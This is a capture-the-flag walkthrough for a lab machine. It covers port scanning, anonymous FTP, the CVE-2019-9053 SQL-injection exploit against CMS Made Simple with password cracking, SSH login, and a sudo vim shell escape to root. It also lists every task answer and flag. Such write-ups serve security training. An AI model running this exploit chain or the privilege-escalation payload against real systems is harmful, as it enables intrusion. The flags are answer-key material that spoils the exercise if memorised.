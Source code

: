 # Simple CTF

## Useful tools and resources
- Nmap
- gobuster
- rockyou.txt
- [dirsearch](https://github.com/maurosoria/dirsearch)
- [100k Most used passwords](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt)

## Task 1: Simple CTF
1. How many services are running under port 1000?
```
2
```
First, we do an nmap scan to the machine, checking for all ports.
__nmap output__:
```
> nmap -sT -p- 10.10.253.82
Nmap scan report for 10.10.253.82
Host is up (0.20s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```
We find ports 21 and 80, which are under 1000.

2. What is running in the higher port?
```
ssh
```
We now do an nmap scan to the highestt port, which is 2222.
__nmap output__:
```
> nmap -sV -p 2222 10.10.253.82
Nmap scan report for 10.10.253.82
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see that this port has __ssh__ as its service.

Another alternative for the nmap scan could be:
```bash
nmap -A -T4 -p- 10.10.x.x
```

3. What's the CVE you're using against the application?
```
CVE-2019-9053
```

4. To what kind of vulnerability is the application vulnerable?
```
SQLi
```

First, we are going to acces the ftp service through the user 'anonymous'. Inside the ftp we find a text file with important information. We ge the file and transfer it to our computer so we can read it.
```bash
kali@kali:~$ ftp 10.10.253.82
Connected to 10.10.253.82.
220 (vsFTPd 3.0.3)
Name (10.10.253.82:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (2.6832 MB/s)
ftp> exit
kali@kali:~$ cat ForMitch.txt
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

We exit out of ftp and proceed to the main page in port 80 (http) which is Apache. 
Url: `10.10.219.145/index.html`

We are going to run a __gobuster__ scan to find useful directories.
```bash
kali@kali:~$ gobuster dir -u 10.10.219.145 -w /usr/share/wordlists/dirb/common.txt -t 15 -x php,html,txt -q
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/.htpasswd.html       (Status: 403) [Size: 302]
/.hta.php             (Status: 403) [Size: 296]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.hta.html            (Status: 403) [Size: 297]
/.htaccess.html       (Status: 403) [Size: 302]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess.txt        (Status: 403) [Size: 301]
/.hta.txt             (Status: 403) [Size: 296]
/.htpasswd.php        (Status: 403) [Size: 301]
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]  
/robots.txt           (Status: 200) [Size: 929]  
/server-status        (Status: 403) [Size: 301]  
/simple               (Status: 301) [Size: 315] [--> http://10.10.219.145/simple/]
```
When we inspect the /simle directory, we find __CMS Made Simple__. The version can be found in the footer of the page.
If we search for this CVE: `CMS Made Simple 2.2.8 cve` we find a vulnerability to SQL Injection.

5. What's the password?
```
secret
```

6. Where can you login with the details obtained?
```
ssh
```

We then find the [Exploit Database](https://www.exploit-db.com/exploits/46635) entry with some python code.

python command:
```bash
python 46635.py -u http://10.10.116.229/simple --crack -w 100kcommon.txt
```
output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
We can use this credentials to login using ssh.
```bash
ssh mitch@10.10.116.229 -p 2222
```
When promped for the password, write: `secret`.

We are now logged in as mitch.

7. What's the user flag?
```
G00d j0b, keep up!
```
If we do `ls` once we are logged in, we can find a file called __user.txt__. If we cat it out we find the user flag.

8. Is there any other user in the home directory? What's its name?
```
sunbath
```
In our current folder, jump back a directory with `cd ..`. Now do an `ls` to see the contents of the home folder. 
We should see another user called __sunbath__.

9. What can you leverage to spawn a privileged shell?
```
vim
```
To see what our sudo privileges are, we can run `sudo -l`. After running it we can see that we have acces to vim, and we can exploit that to get root access.
If we search for vim in GTFOBins, and go to the sudo section we see a potential payload that we can use.

__payload__
```bash
sudo vim -c ':!/bin/sh'
```
After running it, we should have root access.

10. What's the root flag?
```
W3ll d0n3. You made it!
```
If we change into the root folder with `cd /root` we can then run `ls -la` to see all the contents of the folder, where the root flag can be found.